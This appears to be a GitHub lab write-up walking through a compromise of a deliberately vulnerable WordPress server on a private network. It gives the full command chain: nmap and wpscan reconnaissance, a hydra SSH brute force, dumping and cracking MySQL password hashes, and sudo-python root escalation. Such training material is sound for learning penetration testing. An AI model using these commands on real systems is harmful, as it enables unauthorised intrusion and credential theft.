 # Attacking_and_Defending_Vulnerable_Wordpress_Server
Attacking the Vulnerable WordPress Server:
1. Using netdiscover to find IP Address
2. Using nmap -p- -sV 192.168.1.110 to show that SSH is open on the WordPress Server
3. Using wpscan --url 192.168.1.110/wordpress --enumerate u - to show the 2 users from the wpscan
4. Using hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4 to show the password for michael
5. Using ssh michael@192.168.1.110 to get into the machine
6. Searching until you find the service.html file
7. Cat Service.html - flag1
8. Using find -type f -iname 'flag*' 2>dev/null
9. cd to ./var/www | cat flag2.txt
10. Getting into the MySQL database:
11. mysql -h localhost -u root -p
12. Using show databases
13. Then use wordpress
14. Typing select user_login, user_pass from wp_users to find the user password hashes
15. Copying password hashes into a txt file 
16. Using John against that txt file to find the other user's password
17. ssh into steven@192.168.1.110
18. Then, typing sudo -l to see what can be ran with root priviliges
19. Python can be ran as sudo
20. Using sudo python -c 'import pty;pty.spawn(*/bin/bash*);'
